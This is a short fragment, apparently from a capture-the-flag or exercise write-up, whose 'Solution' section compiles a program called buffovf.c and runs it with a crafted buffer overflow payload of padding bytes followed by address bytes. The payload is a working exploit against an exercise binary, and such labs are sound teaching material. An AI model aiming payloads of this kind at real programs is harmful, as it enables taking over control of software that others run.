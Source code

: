 ## Solution

### Exploit
```
gcc -o buffovf buffovf.c
./buffovf `echo -ne "AAAAAAAABBBBBBCCCCCCCCDDDDDDDDEEEEEEEE\x38\x10\x60"` `echo -ne "\x80\x06\x40"`
```
